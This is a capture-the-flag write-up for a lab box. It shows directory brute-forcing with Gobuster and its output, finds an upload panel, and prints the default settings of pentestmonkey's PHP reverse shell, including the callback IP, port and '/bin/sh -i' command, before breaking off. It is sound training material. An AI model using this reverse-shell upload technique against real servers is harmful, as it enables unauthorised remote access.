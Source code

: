 

## Gobuster and Enumeration
Let's take a look at the web server.

![website](https://i.imgur.com/pELYPiF.png)

There isn't much to go off of, so let's try and bruteforce directories using Gobuster.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --url http://10.10.41.62/
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.41.62/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/10 19:29:59 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

Let's take a look at ``/panel``:

![panel](https://i.imgur.com/rqspEMV.png)

And ``/uploads``:

![uploads](https://i.imgur.com/DzJhvGe.png)

Cool! It looks like we can upload things through the panel and then access them through uploads. From experience, I know that I would be uploading some type of reverse shell through the panel and accessing/invoking it through uploads. Since this is an easy box, I'll try out a simple php reverse shell payload from pentestmonkey.

## PHP Reverse Shell

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Here are the defaults of the revshell:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
